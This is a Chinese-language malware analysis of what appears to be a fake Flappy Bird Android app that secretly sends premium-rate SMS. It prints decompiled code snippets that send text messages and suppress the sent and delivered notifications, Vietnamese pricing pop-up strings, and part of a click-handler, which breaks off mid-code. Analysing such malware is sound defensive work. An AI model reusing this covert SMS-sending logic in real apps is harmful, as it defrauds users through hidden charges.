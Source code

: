 下面这段代码负责发送短信：

```
localSmsManager.sendTextMessage(SendSMS.address, null, this.val$data, localPendingIntent1, localPendingIntent2);

```

这两段代码是隐藏短信发送与到达通知：

```
PendingIntent localPendingIntent1 = PendingIntent.getBroadcast(SendSMS.this, 0, new Intent("SMS_SENT"), 0);
PendingIntent localPendingIntent2 = PendingIntent.getBroadcast(SendSMS.this, 0, new Intent("SMS_DELIVERED"), 0);

```

sendTextMessage 方法是 Android 其中一个 API（参阅[android.telephony.gsm.SmsManager](http://developer.android.com/reference/android/telephony/gsm/SmsManager.html#sendTextMessage%28java.lang.String,%20java.lang.String,%20java.lang.String,%20android.app.PendingIntent,%20android.app.PendingIntent%29) ）。

根据这个，我们可以明确的知道程序发送短信以及隐藏相关操作的代码。

下一个问题就是，这个短信是什么时候发送的呢，是由用户触发的还是其他的呢？

来看一下**MainActivity.class**文件：

**MainActivity.class: Global Variables Snippet**

```
public String pop_up1 = "B?ng cách cài ??t và s? d?ng trò ch?i, ph?n m?m này, b?n ???c coi nh? ?ã ch?p nh?n các ?i?u kho?n s? d?ng d??i ?ây c?a chúng tôi: \n1\. Không g? b? ho?c vô hi?u hóa b?t k? bi?n pháp b?o v?, quy?n s? h?u hay b?n quy?n có trên ho?c trong trò ch?i, ph?n m?m \n2\. Không t?o ra các b?n sao b?t ch??c các tính n?ng ho?c giao di?n, d? li?u c?a trò ch?i, ph?n m?m này.\n3\. Không s? d?ng trò ch?i, ph?n m?m này làm công c? ?? gây h?i cho nh?ng ng??i dùng khác.\n4\. S?n ph?m có phí và b?n c?n thanh toán ?? ti?p t?c s? d?ng sau th?i gian dùng th?.\n5\. Phí s? d?ng s?n ph?m t? 15.000 ? ??n 30.000 ?.";
public String pop_up2 = "   B?n có mu?n kích ho?t không?";

```

这两个字符串都为越南文，根据 google 翻译：

> pop_up1：“通过安装和使用游戏，软件，你将被视为已接受了我们的使用下面的条款： 不要删除或禁用任何防护措施，或在游戏中所有权或著作权，软件。 不要创建重复或模仿界面功能，游戏数据，此软件。 不要使用游戏，软件作为一种工具来造成危害其他用户。 我们的产品是免费的，你需要付费才能继续试用期后使用。 收费使用的产品从 15,000 越盾 30,000 越盾。“ pop_up2：“你想要激活吗”

这些看起来像标准条款和条件，只是 Flappy Bird 是一个免费的应用程序，所以不应该花费。有趣的是在 15000 的花费与上面访问的 URL 应该是一样的：http://210.***.***.195/bookmark/getServiceCode?price=15000）。

后来在**MainActivity.class**文件的**initListView**中找到产生这些对话伴并随着一些发送短信动作代码。下面是从类文件中的代码摘录：

**MainActivity.class: Code Extract**

```
while (Service_mLink.number_send == 1)
    {
      openPop_up(this.pop_up1, Service_mLink.number_send, 1);
      this.listView.setOnItemClickListener(new AdapterView.OnItemClickListener()
      {
        public void onItemClick(AdapterView<?> paramAdapterView, View paramView, int paramInt, long paramLong)
        {
          Integer localInteger = Integer.valueOf(0);
          MainActivity.linkInfo = new LinkInfo();
          MainActivity.linkInfo = (LinkInfo)Service_mLink.instance.listLinkInfo.get(paramInt);
          MainActivity.this.link = MainActivity.linkInfo.getLink();
          MainActivity.this.mo = MainActivity.linkInfo.getMo();
          MainActivity.this.servicecode = Service_mLink.svcodeActive;
          MainActivity.this.servicecode2 = MainActivity.linkInfo.getServicecode2();
          if (localInteger.intValue() == 0)
```